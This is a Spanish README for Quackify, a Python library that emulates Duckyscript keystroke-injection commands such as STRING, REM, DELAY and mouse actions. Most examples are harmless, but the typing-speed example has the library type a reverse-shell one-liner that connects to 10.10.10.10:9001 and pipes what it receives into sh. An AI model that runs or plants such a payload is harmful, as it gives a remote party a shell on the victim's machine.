 # Quackify
*Quackify es una biblioteca para Python que emula diversas funciones del Duckyscript.*

Entre varias de ellas, encontramos funciones básicas como "string", "rem" y "delay".

Muchas de las funciones se inspiraron en [DuckyPad](https://github.com/dekuNukem/duckyPad).

# Uso

## Funciones

String: La función "string" emula lo que sería un "string" normal en un Duckyscript.

```
STRING Hola Mundo
```

El dispositivo simplemente emulará la entrada de teclado de las letras "H", "o", "l", "a", espacio, "M", "u", "n", "d", "o" en ese orden. Esencialmente, el script simulará que alguien está escribiendo "Hola Mundo" en el teclado de la computadora.

Convertido a python, seria:

```python
from quackify import send

send.string("Hola Mundo")
```

### Rem 

La función "rem" emula lo que sería el comentario en Duckyscript, comúnmente utilizado para proporcionar explicaciones o notas.

```
REM Este es un comentario en un Duckyscript.
```

Convertido a python, seria:

```python
from quackify import rem

rem.add_comment("Este es un comentario en Quackify")
```

### Delay 

La función "delay" emula lo que sería la pausa por un tiempo determinado en un Duckyscript.

```
STRING Hola
DELAY 500
STRING Mundo
```

En este caso, el script primero simula la entrada de teclado "Hola" y luego espera 500 milisegundos (o medio segundo) antes de simular la entrada de teclado "Mundo".

Convertido a python, seria:

```python
from quackify import send, delay

send.string("Hola")
delay.delay(500)
send.string("Mundo")
```

## Interacción con el ratón.

Quackify también incluye funciones para interactuar con el cursor, como clic derecho, clic izquierdo, emulación de clic de rueda del mouse, así como para mover el cursor a coordenadas específicas y para imprimir las coordenadas actuales del cursor.

```python
# mouse_click.right()  =  RMOUSE
# mouse_click.left() = LMOUSE
# mouse_clicl.middle() = MMOUSE
````

Emular click derecho, izquierdo y rueda del mouse:

```python
from quackify import mouse_click

# Click derecho
mouse_click.right()

# Click  izquierdo

mouse_click.left()

# Clickear usando la rueda del mouse

mouse_click.middle()
```

Con Quackify, también puedes emular el movimiento del cursor de manera similar a la función "MOUSE_MOVE" de DuckyPad.

```python
from quackify import mouse_move

mouse_move.move(1344, 17)
```

Con esto, el cursor se moverá a las coordenadas proporcionadas. Además, Quackify incluye la función **"get_pos"**, que nos permitirá visualizar la posición actual del cursor.

```python
from quackify import mouse_move

mouse_move.get_pos()
```

Con esto, se mostrarían las coordenadas x,y del cursor, y no sería necesario agregar un comando print, ya que este ya está integrado en el código.

## Velocidad de escritura

También, la función string incluye una función adicional llamada **"speed"**. Con esta función, podremos configurar la velocidad a la que el script escribirá, como se muestra en el siguiente ejemplo:

```python
from quackify import send

send.speed(1)
send.string("C='curl -Ns telnet://10.10.10.10:9001'; $C </dev/null 2>&1 | sh 2>&1 | $C >/dev/nul")
```

Si se desea ajustar la velocidad de escritura, es necesario **declarar la función "send.speed" antes de llamar la funcion "send.string"**.
